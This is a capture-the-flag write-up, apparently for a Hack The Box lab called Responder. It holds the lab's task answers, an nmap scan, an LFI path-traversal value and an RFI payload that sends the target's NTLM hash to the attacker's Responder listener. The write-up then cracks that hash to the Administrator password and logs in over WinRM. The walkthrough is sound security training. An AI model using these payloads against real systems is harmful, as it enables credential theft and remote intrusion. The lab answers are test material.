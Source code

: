 ## Box 4: Responder

 <img src="1.png" class="center">

This Box is tagged "SAMBA", "Enumeration", "Apache" and "WinRM". 

## Checking for open ports : 
First we run  **nmap -p- -sV -O 10.129.232.67**

 <img src="2.png" class="center">
 
 **Task1: How many TCP ports are open on the machine? :** 2 open ports 
 **- 80/tcp**
 **- 5985/tcp**  
 Seeing that a 5985/tcp port is open on our machine means that WinRM is configured and we can try entering a remote session.

**What is WinRM ?**
Windows Remote Management (WinRM) is a Microsoft protocol that allows remote management of Windows machines over HTTP(S) using SOAP. On the backend it's utilising WMI, so you can think of it as an HTTP based API for WMI.
If WinRM is enabled on the machine, it's trivial to remotely administer the machine from PowerShell. In fact, you can just drop in to a remote PowerShell session on the machine (as if you were using SSH!) . 

**Task2: When visiting the web service using the IP address, what is the domain that we are being redirected to?** unika.htb
At this point, we need to setup a local DNS using the hosts file (/etc/hosts) 

<img src="3.png" class="center"> 

By entering the ip given we will get this page :
<img src="14.png" class="center"> 


**Task3: Which scripting language is being used on the server to generate webpages?** PHP
By using the tool Wapppalyzer we can see that the scripting language used is PHP 

<img src="4.png" class="center"> 

**Task4: What is the name of the URL parameter which is used to load different language versions of the webpage?** page
**Task5: Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**
../../../../../../../../windows/system32/drivers/etc/hosts

<img src="5.png" class="center"> 

**Task6: Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**
//10.10.14.6/somefile

**What is RFI ?**
Remote file inclusion (RFI) is an attack targeting vulnerabilities in web applications that dynamically reference external scripts. The perpetrator’s goal is to exploit the referencing function in an application to upload malware (e.g., backdoor shells) from a remote URL located within a different domain.

**Task7 : What does NTLM stand for?** New Technology Lan Manager 

**Task8 : Which flag do we use in the Responder utility to specify the network interface?** -I 


By using the responder which is an inbuilt Kali Linux tool for Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) that responds to specific NetBIOS queries based on the file server request.

<img src="6.png" class="center"> 
<img src="7.png" class="center"> 

Now that the responder server is listening , we will make the server include a ressource from our smb using the following payload:
**http://unika.htb/?page=//ourIP@/somefile**

The responder server got a NetNTLMv for the Administrator user.
<img src="8.png" class="center"> 
We can copy this hash into a file that we will call hash . 

**Task9 : There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?** John The Ripper 

We can now crack the hash that we have got using the tool John the Ripper to get the password of the Administrator like the following : 
<img src="9.png" class="center"> 

**Task10: What is the password for the administrator user?** badminton

**Task11: We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?** 5985

By using the tool evil winrm we can connect to the WinRM service on the target machine :

<img src="10.png" class="center"> 
<img src="11.png" class="center"> 
<img src="12.png" class="center"> 
We can find the flag under c:\Users\mike\Desktop
<img src="13.png" class="center"> 



